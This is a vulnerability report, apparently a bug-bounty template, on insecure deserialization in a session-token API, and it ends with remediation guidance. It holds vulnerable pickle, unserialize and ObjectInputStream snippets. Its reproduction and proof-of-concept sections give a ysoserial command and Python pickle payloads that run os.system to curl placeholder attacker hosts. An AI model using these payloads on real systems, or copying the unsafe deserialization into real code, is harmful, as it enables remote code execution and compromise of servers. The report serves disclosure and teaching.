 # 🐞 Insecure Deserialization Vulnerability Report

---

## 📌 Title

**Insecure Deserialization in Session Token Handling Leads to Remote Code Execution (RCE)**

---

## 📝 Description

An **Insecure Deserialization** vulnerability was identified in the application’s handling of serialized objects. The backend accepts untrusted data and deserializes it without verifying the data source or integrity, enabling attackers to craft malicious objects that result in remote code execution or logic manipulation.

Insecure deserialization is often used to exploit:

- **Remote Code Execution (RCE)**
- **Authentication Bypass**
- **Privilege Escalation**
- **Denial of Service (DoS)**

---

## 🌐 Affected Endpoint

- **URL**: `https://vulnerable-website.com/api/auth/session`
- **Method**: `POST`
- **Vulnerable Parameter**: `session_token` (Base64 encoded serialized data)

---

## ⚙️ Vulnerable Code Snippet (Python / PHP / Java Example)

```python
# ❌ Python example
import pickle
def load_session(token):
    return pickle.loads(base64.b64decode(token))  # Vulnerable
```

```php
// ❌ PHP example
$session = unserialize(base64_decode($_POST['session_token']));
```

```java
// ❌ Java example
ObjectInputStream ois = new ObjectInputStream(inputStream);
Object obj = ois.readObject(); // No validation
```

---

## 🧪 Steps to Reproduce

### ✅ Prerequisites

- Any intercepting proxy (Burp Suite, Postman, etc.)
- Ability to send custom session tokens
- Optional: use tools like `ysoserial`, `marshalsec`, or `pickletools`

---

### 🔁 Step-by-Step

#### Step 1: Capture Valid Request

```http
POST /api/auth/session HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/json

{
  "session_token": "gASV...=="  // base64 encoded serialized object
}
```

#### Step 2: Craft Malicious Payload

Using `ysoserial` for Java (example):

```bash
java -jar ysoserial.jar CommonsCollections6 'curl attacker.com' > payload.ser
```

Or Python:

```python
import pickle, base64, os

class RCE:
    def __reduce__(self):
        return (os.system, ('curl http://attacker.com',))

payload = base64.b64encode(pickle.dumps(RCE()))
print(payload)
```

#### Step 3: Replace Token

```json
{
  "session_token": "<malicious_base64_payload>"
}
```

#### Step 4: Send Request

✅ The server executes the command or performs unauthorized actions.

---

## 💣 Proof of Concept (PoC)

**Python RCE PoC Payload**

```python
import pickle, base64, os

class RCE:
    def __reduce__(self):
        return (os.system, ("curl http://yourhost.com/ping",))

print(base64.b64encode(pickle.dumps(RCE())))
```

Send the payload via:

```http
POST /api/auth/session
{
  "session_token": "gASVNwAAAAAAAACMCnN5c3RlbQpzCnN5c3RlbQp..."  // shortened
}
```

---

## 🔥 Impact

- **Remote Code Execution (RCE)**
- **Authentication/Session Hijacking**
- **Privilege Escalation**
- **Logic Tampering**
- **Data Exfiltration**
- **Denial of Service (DoS)**

---

## 🔧 Recommended Remediation

- ❌ Do **not** deserialize user input
- ✅ Use **signed** and **encrypted** tokens (JWT, etc.)
- ✅ Use safe serialization formats: JSON, XML with schema validation
- ✅ Use allow-lists for class deserialization in Java

### Secure Alternatives:

- Replace `pickle`, `unserialize`, `ObjectInputStream` with safer libraries
- In Java: Use `Kryo`, `Jackson` (with type restrictions)
- In Python: Use `json.loads()` instead of `pickle`

---

## 🔐 Security Best Practices

- Never trust client-supplied data for deserialization
- Use integrity checks (HMAC, digital signature)
- Implement logging for all deserialization errors
- Use deserialization sandboxing (Java SecurityManager or containers)

---

## 🧾 References

- [OWASP - Insecure Deserialization](https://owasp.org/www-community/vulnerabilities/Deserialization_of_untrusted_data)
- [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
- [PortSwigger - Deserialization Exploits](https://portswigger.net/web-security/deserialization)
- [PayloadsAllTheThings - Deserialization](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization)

---

## 📅 Report Date

**2025-06-17**

---

## 🧑‍💻 Reported By

- **Security Researcher**: raghav  
- **Tools Used**: Burp Suite, Python, ysoserial  
- **Severity**: **Critical**

---

> ⚠️ This issue is reported responsibly.